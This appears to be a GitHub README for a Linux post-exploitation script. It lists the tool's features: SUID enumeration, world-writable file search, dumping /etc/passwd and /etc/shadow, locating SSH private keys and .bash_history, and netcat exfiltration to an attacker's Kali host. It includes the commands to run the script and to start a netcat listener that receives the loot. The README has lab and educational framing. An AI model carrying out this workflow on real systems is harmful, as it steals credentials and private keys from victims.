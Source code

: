 # Victimfilesdownload_shell
(Note: this can runnable only on victim machine after obtaining shell and use this script with legal permission on systems only)


Post-Exploitation Enumeration & Exfiltration Script (Linux os) 

it is about performing post-exploitation tasks after gaining a shell on a Linux system
(it can dowload permissions and resources on the victim machine)

-->Features: Enumerates SUID privilege escalation
-->Finds world-writable files  Dumps /etc/passwd, attempts /etc/shadow  
-->Locates SSH private keys and .bash_history  
-->Supports Netcat-based file exfiltration to attacker machine  

-->Pls Use for Educational Use Only 
or
-->use with permissions system only

How to Use (in your lab):

🖥️ On the Victim Machine (after gaining shell):

chmod +x post_exploitation_enum_and_exfil.sh

./post_exploitation_enum_and_exfil.sh <your-kali-ip> <port>

This will:

Enumerate SUID files, world-writable files

Dump /etc/passwd, try /etc/shadow

Search for SSH keys and .bash_history

Use Netcat to send /etc/passwd back to your Kali

On Your Kali (Attacker) Machine:
Start listener to receive the file:

nc -lvp <port> > passwd_loot.txt

